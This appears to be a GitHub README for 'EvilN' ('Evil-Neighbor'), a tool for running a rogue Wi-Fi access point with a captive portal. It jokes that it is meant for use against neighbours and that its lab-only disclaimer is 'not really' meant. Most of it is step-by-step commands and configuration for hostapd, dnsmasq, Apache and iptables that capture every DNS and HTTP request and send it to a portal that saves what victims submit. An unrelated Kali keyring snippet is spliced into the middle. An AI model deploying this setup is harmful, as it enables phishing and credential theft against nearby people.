 # EvilN -> Evil-Neighbor

if you love your neighbors, this tool is for you :)

Just kiding (not really... )

Any use of this tool is at your own risk, this tool should be used in a lab environment  (not really... )

## If you like things done authomatically, Use:
```python
python3 EvilN.py --iface wlan0 --ssid "MyLan" --channel 1 --network 10.0.0.0/24
```
 1) Install the new keyring (official one-liner)
sudo wget https://archive.kali.org/archive-keyring.gpg -O /usr/share/keyrings/kali-archive-keyring.gpg

 2) (Optional) Verify checksum matches the official value
sha1sum /usr/share/keyrings/kali-archive-keyring.gpg
expected: 603374c107a90a69d983dbcb4d31e0d6eedfc325

 3) Update
sudo apt update


## If you like things dome manually, Use:

### 1) Installation all pachages:
```bash
sudo apt update
sudo apt install -y apache2 php libapache2-mod-php
sudo apt install -y hostapd dnsmasq lighttpd php
```

### 2) Setting up wlan0 Interface:
```bash
sudo ip link set wlan0 down
sudo ip addr flush dev wlan0
sudo ip addr add 192.168.50.1/24 dev wlan0
sudo ip link set wlan0 up
```

### 3) configure dnsmasq.conf file:
```bash
interface=wlan0
bind-interfaces
no-resolv
log-queries

dhcp-range=192.168.50.10,192.168.50.100,12h
dhcp-option=3,192.168.50.1
dhcp-option=6,192.168.50.1

address=/#/192.168.50.1

address=/captive.apple.com/192.168.50.1
address=/www.msftconnecttest.com/192.168.50.1
address=/connectivitycheck.gstatic.com/192.168.50.1
```

### 4) configure hostapd.conf file:
```bash
interface=wlan0
driver=nl80211
ssid=TestNetworkName 
hw_mode=g
channel=6
auth_algs=1
wmm_enabled=0
```

### 5) configure a2enmod:
```bash
sudo systemctl start apache2
sudo a2enmod rewrite
sudo a2enmod headers
sudo systemctl restart apache2
```

### 5) Create captive Foles:
```bash
sudo mkdir -p /var/www/captive
```

### 6) Create Web Captive Portal:
```bash
sudo mv index.html /var/www/captive/
sudo mv save.php /var/www/captive/
```

### 7) Create log file:
```bash
sudo touch /var/log/ca.log
```

### 8) Permission for file:
```bash
sudo chown www-data:www-data /var/log/ca.log
sudo chmod 640 /var/log/ca.log
```

### 9) Create Vhost:
```bash
nano /etc/apache2/sites-available/captive.conf
```

```bash
<VirtualHost *:80>
    ServerName captive.portal
    ServerAlias *
    DocumentRoot /var/www/captive


    <Directory /var/www/captive>
        AllowOverride All
        Require all granted
    </Directory>

 
    # iOS/macOS
    Alias /hotspot-detect.html /var/www/captive/index.html
    # Android
    Alias /generate_204 /var/www/captive/index.html
    # Windows
    Alias /connecttest.txt /var/www/captive/index.html

   
    RewriteEngine On
    RewriteCond %{REQUEST_URI} !^/save\.php$
    RewriteRule ^.*$ /index.html [L]

    Header always set Cache-Control "no-store, no-cache, must-revalidate, max-age=0"
    Header always set Pragma "no-cache"
    Header always set Expires "0"
</VirtualHost>
```

### 10) Start a2ensite:
```bash
sudo a2ensite captive.conf
sudo a2dissite 000-default.conf
sudo systemctl reload apache2
```


### 11) Create IpTables:
```bash
sudo iptables -t nat -A PREROUTING -i wlan0 -p tcp --dport 80 -j REDIRECT --to-ports 80
sudo iptables -t nat -A PREROUTING -i wlan0 -p udp --dport 53 -j REDIRECT --to-ports 53
sudo iptables -t nat -A PREROUTING -i wlan0 -p tcp --dport 53 -j REDIRECT --to-ports 53
```

### 12) start:
```bash
sudo dnsmasq -C dnsmasq.conf
sudo hostapd hostapd.conf
```

```bash
sudo pkill dnsmasq
sudo dnsmasq -C /full/path/to/dnsmasq.conf
```
